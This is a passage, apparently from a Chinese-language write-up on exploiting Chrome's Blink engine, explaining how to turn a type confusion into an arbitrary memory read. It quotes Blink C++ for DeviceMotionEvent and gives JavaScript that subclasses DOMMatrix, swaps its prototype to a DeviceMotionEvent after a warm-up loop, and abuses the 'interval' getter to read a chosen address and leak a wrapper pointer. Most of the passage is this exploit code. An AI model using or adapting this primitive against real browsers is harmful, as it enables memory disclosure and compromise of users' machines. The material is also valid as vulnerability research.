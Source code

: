 这个过程和上面的泄漏有些许不同，因为泄漏一个属性只需要调整偏移即可，但泄漏某个偏移处指向的地址，却要求我们拥有“解引用”的方法，这可以通过 `DeviceMotionEvent::interval` 实现：

```c++
class DeviceMotionEvent final : public Event {
  DEFINE_WRAPPERTYPEINFO();

 public:
  double DeviceMotionEvent::interval() const {
    //reads the field `interval_` from `device_motion_data_`
    return device_motion_data_->Interval();
  }

  ...
 private:
  Member<const DeviceMotionData> device_motion_data_;
}

class MODULES_EXPORT DeviceMotionData final
    : public GarbageCollected<DeviceMotionData> {
 public:
  ...
  double Interval() const { return interval_; }
  ...
 private:
  ...
  double interval_;
};
```

`DeviceMotionEvent` 在某固定偏移处指向了 `device_motion_data_` ，并从该对象的固定偏移处读取 `interval_` ，我们将这种读取方式应用与另外一个对象，本例中即为 `DOMMatrix` ，那么它就会从 `DOMMatrix.m33` 偏移处获取到地址作为 `device_motion_data_` ，并从该地址处的固定偏移获取数据：

![[device_motion_data_.png]]

```js
    class SubMatrix extends DOMMatrix {
      constructor(addr) {
        let input = matrixInput;
        input[10] = itof(BigInt(addr - 0x18));
        super(input);
      }

      readContent() {
        return super.interval;
      }
    }
    
    var motionEvent = new DeviceMotionEvent({});
    function readFrom(i, subMatrix) {
      motionEvent['a' + i] = 1;
      if (i < loopCount) {
        SubMatrix.prototype.__proto__ = {};
      } else {
        SubMatrix.prototype.__proto__ = motionEvent;
      }
      motionEvent.interval;
      let addr = subMatrix.readContent();
      return addr;
    }
    let mainWorldMatrix = new SubMatrix(imgAddr + 0x8);
    for (let i = 0; i < loopCount; i++) {
      readFrom(i, mainWorldMatrix);
    }
    let mainWorldWrapper = Number(ftoi(readFrom(loopCount, mainWorldMatrix)));
```